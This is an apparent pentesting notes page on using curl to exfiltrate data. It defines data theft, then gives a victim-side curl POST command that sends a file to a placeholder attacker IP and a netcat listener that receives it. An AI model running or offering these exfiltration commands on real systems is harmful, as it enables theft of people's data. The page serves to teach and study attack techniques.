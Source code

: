 # CURL - Exfiltration

## Data Exfiltration

Data exfiltration in simpler terms is also known as Data Theft or Data Exportation. These terms generally define the method of attackers having unauthorized access to a user’s data and sneakily make a copy of it by gaining access to the system or the network. Data exfiltration can be performed in various methods with their primary intent of stealing data. This form of attack usually goes undetected. In this article, we are going to learn about data exfiltration by using Linux and Windows binaries.

## Data Exfiltration using CURL

It is a command-line tool that is used for transferring data using various network protocols. We can use **/curl** binary to sneakily use file upload and send the file to the attacker machine over the HTTP POST connection.&#x20;

### Victim Machine

```
curl -X POST -d @data.txt <attacker ip>
```

### Attacker Machine

```
nc -lvp 80 > data.txt

cat data.txt
```





***



## REFERENCES

* [https://www.hackingarticles.in/data-exfiltration-using-linux-binaries/](https://www.hackingarticles.in/data-exfiltration-using-linux-binaries/)
* [https://gtfobins.github.io/gtfobins/curl/](https://gtfobins.github.io/gtfobins/curl/)
